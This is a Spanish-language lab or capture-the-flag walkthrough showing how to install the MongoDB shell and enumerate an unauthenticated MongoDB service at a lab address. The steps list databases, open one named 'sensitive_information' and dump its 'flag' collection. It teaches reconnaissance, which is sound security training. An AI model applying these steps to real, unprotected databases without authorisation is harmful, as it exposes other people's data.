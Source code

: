 ![portada_mongo](img/portada_mongo.png)
# Enumeración básica de un servicio MongoDB
Una buena enumeración es la base del éxito y la eficacia de un pentesting. En este artículo aprenderemos a realizar una enumeración básica de una base de datos NoSQL como es MongoDB.

Lo primero que necesitaremos es la instalación del cliente de MongoDB para poder conectarnos al servicio. A continuación, mostraremos los comandos a ejecutar para una máquina con sistema operativo Kali Linux:
```bash
$ sudo apt-get install gnupg
$ wget -qO- https://www.mongodb.org/static/pgp/server-8.0.asc | sudo tee /etc/apt/trusted.gpg.d/server-8.0.asc
$ echo "deb [ arch=amd64,arm64 ] https://repo.mongodb.org/apt/ubuntu jammy/mongodb-org/8.0 multiverse" | sudo tee /etc/apt/sources.list.d/mongodb-org-8.0.list
$ sudo apt-get update
$ sudo apt-get install -y mongodb-mongosh
```
Terminada la instalación, ya estamos en disposición de empezar con el proceso de enumeración. El siguiente paso será conectarnos al servicio de MongoDB. En nuestro ejemplo, el servicio no requiere de autenticación.
```bash
$ mongosh 10.129.76.217
```
![conexion_mongo](img/mongo_db_1.png)

Ahora, enumeraremos las bases de datos que el servicio de MongoDB tiene disponibles:
```bash
test> show dbs
```
![mostrar_base_de_datos](img/mongo_db_2.png)

Una base de datos en concreto parece especialmente interesante. La seleccionaremos para poderla enumerar más adelante:
```bash
test> use sensitive_information
```
![seleccionar_base_de_datos](img/mongo_db_3.png)

Ahora, realizaremos un volcado de las colecciones de las que consta la base de datos "sensitive_information":
```bash
sensitive_information> show collections
```
![colecciones](img/mongo_db_4.png)

Finalmente, podemos obtener todos los documentos que componen la colección ejecutando el siguiente comando (añadir .pretty() lo que permite es que el resultado devuelto sea más fácilmente leíble):
```bash
sensitive_information> db.flag.find().pretty()
```
![flag](img/mongo_db_5.png)

Y con esto obtendríamos la ansiada flag 😃.





